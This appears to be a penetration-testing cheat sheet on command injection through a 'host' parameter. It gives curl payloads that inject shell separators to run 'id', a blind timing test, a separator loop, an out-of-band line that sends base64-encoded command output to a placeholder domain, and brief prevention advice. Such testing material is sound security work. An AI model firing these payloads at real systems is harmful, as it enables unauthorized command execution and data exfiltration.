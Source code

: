 # Command Injection — Full

**Signs**
- Parameters hit shell commands (ping, tar, curl, convert, nslookup).
- Time‑based differences (sleep), error leakage, or output injection.

## 1) Quick Checks
```bash
curl -ks "$target/ping?host=127.0.0.1;id"
curl -ks "$target/ping?host=127.0.0.1&&id"
curl -ks "$target/ping?host=127.0.0.1%0aid"
curl -ks "$target/ping?host=$(id)"
curl -ks "$target/ping?host=`id`"
```

## 2) Timing (Blind)
```bash
# Expect ~3s if injectable
curl -sk "$target/ping?host=127.0.0.1;sleep 3" -o /dev/null -w 'time_total=%{time_total}\n'
```

## 3) Payload Shapes
See [`payloads.md`](payloads.md) for Linux/Windows variants, separators, and encodings.

## 4) Automation (small demo)
```bash
for sep in ';' '&&' '|' '%0a' '`' '$(id)'; do
  curl -ks "$target/ping?host=127.0.0.1${sep}id" | head -n 3
done
```

## 5) Out‑of‑Band (Blind)
```bash
# with interactsh or similar
curl -ks "$target/ping?host=$(id|base64).your.oob.domain"
```

## 6) Prevention (Dev)
- No shell concatenation; use exec APIs with **array args** (no shell=True).
- Strict allow‑lists for inputs; validate/normalize; drop privs; chroot/sandbox.
- Disable risky binaries; apply AppArmor/SELinux profiles; log and alert.

See [`prevention.md`](prevention.md) for code examples (Python, Node, PHP, Bash).
